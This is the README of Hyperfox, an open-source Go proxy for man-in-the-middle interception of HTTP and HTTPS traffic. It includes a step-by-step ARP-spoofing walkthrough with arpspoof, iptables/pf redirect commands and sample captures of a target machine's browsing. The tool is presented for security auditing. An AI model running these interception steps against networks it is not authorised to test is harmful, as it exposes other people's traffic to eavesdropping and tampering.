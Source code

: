 # Hyperfox

Hyperfox is a security tool for Man In The Middle operations over HTTP and
HTTPs.

Hyperfox can be used as a tool for auditing a wide range of applications,
including mobile applications that do not properly verify certificates or that
do not use certificates at all.

The `hyperfox` tool is a default distribution of the Hyperfox proxy.

Hyperfox can also be used as a library to develop special proxies with [Go][1],
if you're interested on programming a special proxy for any special MITM
operation you may read the library documentation at [godoc.org][6].

## Features of the Hyperfox tool

The Hyperfox tool has some useful features:

* Saves all the traffic between client and server.
* Can modify server responses before arriving to the client.
* Can modify client requests before sending them to the destination server.
* Supports SSL/TLS.
* Supports streaming.

## Getting Hyperfox

You can download a pre-compiled binary of the Hyperfox tool:

* [Linux x86_64](https://menteslibres.net/files/hyperfox/hyperfox-1.0-linux-x64)
* [OSX x86_64](https://menteslibres.net/files/hyperfox/hyperfox-1.0-darwin-x64)

Once you've downloaded the appropriate binary move it to `$HOME/bin/hyperfox`
and call it using the full path:

```sh
$ ~/bin/hyperfox -h
```

If you have `$HOME/bin` in your `$PATH`, you may as well call `hyperfox`
without the full path:

```sh
$ hyperfox -h
```

If you have [Go][1] and [git][2] you can use `go get` to download the source
and compile the Hyperfox tool by yourself:

```sh
$ go get github.com/xiam/hyperfox
$ hyperfox -h
```

## Usage example

**I**. Make sure the [dsniff][5] tool is installed in the MITM machine, we are
going to use the `arpspoof` tool (part of [dsniff][5]) to alter the ARP table
of a specific machine on LAN to make it redirect its traffic to us instead of
to the legitimate LAN gateway. This ancient technique is known as
[ARP spoofing][4].

**II**. Identify the LAN IP of the machine you want to intercept traffic for.
Let's suppose you want to intercept traffic from `10.0.0.146`.

**III**. Identify the IP of your router and the name of the interface you're
connected with, let's say your router is `10.0.0.1` and you're connected to
the router through `wlan0`.

```sh
$ sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    0      0        0 wlan0
```

**IV**. Put the MITM machine in [IP forwarding][3] mode.

```sh
# Linux
$ sudo sysctl -w net.ipv4.ip_forward=1

# FreeBSD/OSX
$ sudo sysctl -w net.inet.ip.forwarding=1
```

**V**. Run hyperfox (as a normal, unprivileged user) within a writable directory:

```sh
$ mkdir -p ~/tmp/hyperfox-session
$ cd ~/tmp/hyperfox-session
$ hyperfox -l 127.0.0.1:9999
2013/08/25 08:21:36 Hyperfox tool, by Carlos Reventlov.
2013/08/25 08:21:36 http://www.reventlov.com

2013/08/25 08:21:36 Listening for HTTP client requests at 127.0.0.1:9999.
```

If you want to analyze HTTPs instead of HTTP, use the `-s` flag and provide
appropriate
[cert.pem](https://github.com/xiam/hyperfox/raw/master/ssl/cert.pem) and
[key.pem](https://github.com/xiam/hyperfox/raw/master/ssl/key.pem) files.

```sh
$ hyperfox -s -c ssl/cert.pem -k ssl/key.pem -l 127.0.0.1:9999
```

**VI**. Prepare the machine to forward everything but the port hyperfox will
intercept (`80` for plain HTTP, `443` for HTTPs), instead tell it to forward
the traffic on port `80` to the `9999` port on `127.0.0.1` (where `hyperfox`
is listening).

```sh
# Linux
$ sudo iptables -A PREROUTING -t nat -i wlan0 -p tcp --destination-port 80 -j REDIRECT --to-port 9999

# OSX
$ echo "rdr pass on en0 proto tcp from any to any port 80 -> 127.0.0.1 port 9999" › pf.conf
$ sudo pfctl -d
$ sudo pfctl -e -f pf.conf

# FreeBSD
$ sudo ipfw add fwd 127.0.0.1,9999 tcp from not me to any 80 via wlan0
```

**VII**. Run `arpspoof` to make `10.0.0.146` think our host is `10.0.0.1` (the
LAN's legitimate gateway), once the ARP spoofing is completed, `10.0.0.146` will
start to send its traffic through our machine.

```sh
$ sudo arpspoof -i wlan0 -t 10.0.0.146 10.0.0.1
```

**VIII**. !???

**IX**. Profit!!

Once `10.0.0.146` starts to send some traffic, a `capture` directory will
be created, this directory contains client requests, server responses and
headers.

```sh
$ cd ~/tmp/hyperfox-session
$ ls
capture
$ cd capture
$ find .
./client
./client/10.0.0.146
./client/10.0.0.146/a.adcloud.net
./client/10.0.0.146/a.adcloud.net/adcloud
./client/10.0.0.146/a.adcloud.net/adcloud/12345
./client/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.head
./client/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699
...
./server
./server/10.0.0.146
./server/10.0.0.146/a.adcloud.net
./server/10.0.0.146/a.adcloud.net/adcloud
./server/10.0.0.146/a.adcloud.net/adcloud/12345
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.head
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.body
...
```

You can see whatever is happening by watching hyperfox's output:

```sh
-> 10.0.0.146:61716 m.vanityfair.com: GET /business/features/2011/05/paul-allen-201105 HTTP/1.1 0b
<- 10.0.0.146:61716 m.vanityfair.com: GET /business/features/2011/05/paul-allen-201105 HTTP/1.1 -1b 200
-> 10.0.0.146:61716 m.vanityfair.com: GET /static/css/mobify.css?1335486443 HTTP/1.1 0b
-> 10.0.0.146:61717 m.vanityfair.com: GET /static/mcss/561/stag-carmot-vf.css?1370835026 HTTP/1.1 0b
-> 10.0.0.146:61718 www.vanityfair.com: GET /etc/clientlibs/foundation/jquery.js HTTP/1.1 0b
-> 10.0.0.146:61719 dl.dropbox.com: GET /u/123456/vf-mobile/js/cn.mobifycore.js HTTP/1.1 0b
<- 10.0.0.146:61718 www.vanityfair.com: GET /etc/clientlibs/foundation/jquery.js HTTP/1.1 0b 304
```

## License

> Copyright (c) 2012-2013 José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: http://golang.org/doc/install
[2]: http://git-scm.com
[3]: http://en.wikipedia.org/wiki/IP_forwarding
[4]: http://en.wikipedia.org/wiki/ARP_spoofing
[5]: http://monkey.org/~dugsong/dsniff/
[6]: http://godoc.org/github.com/xiam/hyperfox/proxy
